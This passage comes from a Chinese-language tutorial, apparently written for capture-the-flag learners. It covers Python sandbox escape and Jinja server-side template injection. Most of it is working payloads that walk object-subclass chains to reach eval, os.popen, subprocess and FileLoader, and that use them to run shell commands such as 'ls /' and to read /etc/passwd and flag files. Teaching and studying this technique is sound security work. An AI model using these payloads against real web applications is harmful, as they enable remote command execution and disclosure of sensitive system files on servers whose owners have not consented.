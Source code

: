 当然你也可以直接在python中完成识别后直接构建payload提交，比如下面的模板语法就完美实现了这一点：

```python
 # 模板语法 _ 命令执行_eval
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}
```

模板语法我们下一节会细讲，现在让我们把目光移回到子类上面。

还有其他的一些子类也能达到 eval 的效果，见下图：

![image-20231129164759866](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101737760.png)

### 命令执行

在构造命令执行的 payload 的时候，要注意一些函数的回显和返回值。

```python
# eval 
x[NUM].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') 

# os.py
x[NUM].__init__.__globals__['os'].popen('ls /').read()

# popen
x[NUM].__init__.__globals__['popen']('ls /').read()

# _frozen_importlib.BuiltinImporter
x[NUM]["load_module"]("os")["popen"]("ls /").read()

# linecache
x[NUM].__init__.__globals__['linecache']['os'].popen('ls /').read()

# subprocess.Popen
x[NUM]('ls /',shell=True,stdout=-1).communicate()[0].strip()
```

### 文件读取

由于Python2中的 File 类在 Python3 中被去掉了，所以目前也就 **FileLoader ( _frozen_importlib_external.FileLoader)** 算真正意义上原生的文件读取

```python
[].__class__.__bases__[0].__subclasses__()[NUM]["get_data"](0,"/etc/passwd")
```

其他文件读取的方法无非还是在命令执行的基础上去导入文件操作的包 ( 为了方便，我们使用 X 代表基类 )

```python
- codecs模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('codecs').open('/app/flag').read()") 

- pathlib模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('pathlib').Path('/app/flag').read_text()") 

- io模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('io').open('/app/flag').read()")

- open函数
x[NUM].__init__.__globals__['__builtins__'].eval("open('/app/flag').read()")
```
